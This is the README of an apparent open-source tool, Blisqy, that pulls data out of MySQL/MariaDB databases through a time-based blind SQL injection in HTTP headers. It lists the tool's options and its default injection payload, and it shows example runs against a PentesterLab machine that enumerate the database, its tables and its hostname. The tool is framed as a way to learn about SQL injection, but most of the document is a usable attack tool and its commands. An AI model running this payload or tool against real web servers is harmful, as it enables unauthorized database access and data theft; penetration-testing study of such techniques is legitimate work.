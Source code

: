 # Blisqy
A slow data siphon for MySQL/MariaDB using bitwise operation on printable ASCII characters, via a blind-SQL injection.

**PS:** Just another way to learn and understand SQL injections - how to manually hunt them down. What happens under the hood of SQLi tools.

## Usage
```bash
USAGE:
blisqy.py --server <Web Server> --port <port> --header <vulnerable header> --hvalue <header value> 
          --inject <point of injection>  --payload <custom sql payload> --dig <yes/no>

Options:
  -h, --help            show this help message and exit
  --server=WEBSERVER    Specify host (web server) IP
  --port=PORT           Specify port
  --header=VULNHEADER   Provide a vulnerable HTTP Header
  --hvalue=HEADERVALUE  Specify the value for the vulnerable header
  --inject=INJECTION    Provide where to inject Sqli payload
  --payload=PAYLOAD     Provide SQL statment/query to inject as payload
  --dig=DIGGER          Automatic Mysql-Schema enumeration (takes time!)
  --sleeptime=SLEEP     Sleep-Time for blind-SQLi query (default : 0.9)
```
## To Do :
* Intergrate an inteligent Fuzzer for hunting SQL injection vulnerabrity(ies) of HTTP Headers
* Support testing for URLs and WEB Forms fields.


## Assumptions :

At the moment, Blisqy assumes you have identified a potential Blind Sql injection vulnerability on a Webserver as demonstrated on [Pentester-Lab (From SQL Injection to Shell II)](https://pentesterlab.com/exercises/from_sqli_to_shell_II/course)

```bash
So point of injection BY DEFAULT is ---> 'or if((%s),sleep(0.9),0) and '1'='1

In other words, this argument is set.
--inject <point of injection> 
```

## Example :
**Vulnerable header is "X-Forwarded-For" and using --dig will enumerate the MySQL DB but takes time**

```bash
./blisqy.py --server 192.168.56.101 --port 80 --header "X-Forwarded-For" --hvalue "hacker" --dig yes  
[+] Getting Current Database : 
[-] photoblog


[+] Getting  number of TABLES ...
[-] 4


[+] Getting  all TABLE NAMES from Schema ...
[-] categories
[-] pictures
[-] stats
[-] users


[+] Getting  Columns and Rows from Schema ....
Preparing to get  all Columns in Table : categories .
=====================================================


[+] Getting   Number of Columns in a categories .

```
**Vulnerable header is "X-Forwarded-For" and using --payload will run a custom SQL query on the MySQL DB**
```bash
./blisqy.py --server 192.168.56.101 --port 80 --header X-Forwarded-For --hvalue "lol"  
            --payload "select @@hostname" --sleeptime 0.8

Extracting Data from ====> 192.168.56.101 : 80 
Current Payload : select @@hostname
==================================================================
debian
```


